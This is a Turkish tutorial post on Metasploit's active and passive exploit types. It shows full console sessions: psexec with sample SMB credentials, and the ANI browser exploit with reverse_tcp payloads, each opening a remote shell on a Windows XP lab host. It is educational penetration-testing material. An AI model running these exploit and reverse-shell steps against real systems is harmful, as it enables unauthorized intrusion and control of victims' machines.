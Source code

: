 ```yaml
---
draft: false
title: MSF İçinde Exploit Çeşitleri
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework içerisinde tüm exploit modülleri aktif ve pasif olarak gruplandırılırlar.
url: /tr/msf-icinde-exploit-cesitleri/
featured_image: /images/metasploit.jpg
weight: 60
translationKey: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Çeşitleri
keywords:
  - exploit
---
```



Metasploit Framework içerisinde tüm exploit modülleri **aktif** ve **pasif** olarak gruplandırılırlar.

## Aktif Exploit

Aktif exploitler, belirli bir hedef üzerinde çalışacak ve işlem tamamlanana kadar çalışmaya devam edecektir. Herhangi bir hata ile karşılaştığında çalışmayı durdururlar.

Örneğin, Brute-force modülü hedef bilgisayarda bir shell komut satırı açılana kadar çalışır ve işlemi bitince durur. İşlemlerinin tamamlanması uzun zaman alabileceğinden `-j` parametresi kullanılarak arka plana gönderilebilirler.

Aşağıdaki örnekte, ms08_067_netapi explotinin çalışmaya başlatılıp arka plana gönderildiğini görebilirsiniz.

```bash
msf exploit(ms08_067_netapi) > exploit -j
> Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

## Aktif Exploit Örneği

Bu örnekte, önceden keşif ile bilgileri elde edilen bir hedef bilgisayarın (192.168.1.100) gerekli değişkenleri ayarlanması ve çalışmaya başlaması görülmektedir. Hedef bilgisayarda shell açmak için psexec exploiti ve içerisinde reverse_tcp payload modülü kullanılmaktadır.

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage (240 bytes)
> Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Pasif Exploit

Pasif Exploitler, yerel bilgisayarda (kendi bilgisayarımız) pasif olarak çalışır ve dinlemede kalırlar. Hedef bilgisayarın bir şekilde yerel bilgisayara bağlanmasını beklerler.

Pasif exploitler neredeyse her durumda Web tarayıcı, FTP vb. istemciler üzerine odaklanırlar. Eposta ile gönderilen dosyalar içerisinden bağlantılarda da kullanılabilirler. Pasif exploit çalıştığında beklemeye başlar. Ne zaman bir kullanıcı sitedeki linke tıklar veya bir işlem yapar, işte o zaman dinlemedeki pasif exploit sinyali alır ve hedefte bir **shell** açar.

Arka planda çalışan ve dinleme yapan exploitlerin listesini `sessions` komutuna `-l` parametresi vererek görebilirsiniz. Listeden istediğiniz `ID` numaralı işleme gitmek için `-i` parametresini kullanabilirsiniz.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
**===============**

  Id  Description  Tunnel
  --  -----------  ------
  1   Meterpreter  192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Pasif Exploit Örneği

Aşağıdaki örnekte, loadimage_chunksize exploiti ve reverse_tcp payload u kullanılarak bir kullanıcının Web sayfasına girmesi beklenmeye başlanmaktadır. `LHOST` değişkeni yerelde dinleme yapacak bilgisayar IP adresini, `LPORT` ise yerel bilgisayarda dinlenme yapacak port numarasını ifade eder.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
>  Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit(ani_loadimage_chunksize) >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
> Sending stage (240 bytes)
> Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

Anlatılmasını istediğiniz diğer başlıkları bize iletebilirsiniz.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}
